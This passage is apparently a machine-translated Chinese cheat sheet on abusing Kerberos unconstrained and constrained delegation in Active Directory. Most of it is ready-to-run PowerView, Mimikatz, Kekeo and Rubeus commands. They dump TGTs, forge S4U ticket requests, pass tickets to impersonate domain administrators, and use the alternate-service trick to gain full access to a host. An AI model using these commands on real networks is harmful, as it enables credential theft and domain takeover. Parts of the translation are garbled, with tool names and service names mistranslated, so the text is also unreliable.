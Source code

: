 详细文章: [DPAPI 所有的东西](https://github.com/gentilkiwi/mimikatz/wiki/howto-~-credential-manager-saved-credentials)

# 不受限制的委托

*WUT 是 DIS？:如果我们在启用了无约束委派的机器上具有管理访问权限，我们可以等待高价值目标或 DA 连接到该机器，窃取他的 TGT，然后进行 ptt 并冒充他！*

使用 PowerView:

```
#Discover domain joined computers that have Unconstrained Delegation enabled
Get-NetComputer -UnConstrained#List tickets and check if a DA or some High Value target has stored its TGT
Invoke-Mimikatz -Command '"sekurlsa::tickets"'#Command to monitor any incoming sessions on our compromised server
Invoke-UserHunter -ComputerName <NameOfTheComputer> -Poll <TimeOfMonitoringInSeconds> -UserName <UserToMonitorFor> -Delay   
<WaitInterval> -Verbose#Dump the tickets to disk:
Invoke-Mimikatz -Command '"sekurlsa::tickets /export"'#Impersonate the user using ptt attack:
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTicket>"'
```

注意:我们也可以用鲁伯！

# 受约束的委托

使用 PowerView 和 Kekeo:

```
#Enumerate Users and Computers with constrained delegation
Get-DomainUser -TrustedToAuth
Get-DomainComputer -TrustedToAuth#If we have a user that has Constrained delegation, we ask for a valid tgt of this user using kekeo
tgt::ask /user:<UserName> /domain:<Domain's FQDN> /rc4:<hashedPasswordOfTheUser>#Then using the TGT we have ask a TGS for a Service this user has Access to through constrained delegation
tgs::s4u /tgt:<PathToTGT> /user:<UserToImpersonate>@<Domain's FQDN> /service:<Service's SPN>#Finally use mimikatz to ptt the TGS
Invoke-Mimikatz -Command '"kerberos::ptt <PathToTGS>"'
```

*替代:*使用红色:

```
Rubeus.exe s4u /user:<UserName> /rc4:<NTLMhashedPasswordOfTheUser> /impersonateuser:<UserToImpersonate> /msdsspn:"<Service's SPN>" /altservice:<Optional> /ptt
```

现在我们可以以模拟用户的身份访问服务了！

🚩如果我们只有一个特定的 SPN 的委托权限会怎么样？(例如时间):

在这种情况下，我们仍然可以滥用 kerberos 的一个称为“替代服务”的特性。这使得我们可以请求 TGS 其他“替代”服务的门票，而不仅仅是我们有权利的服务。这使我们能够为主机支持的任何服务请求有效的票证，使我们能够完全访问目标机器。

# 基于资源的受限委托
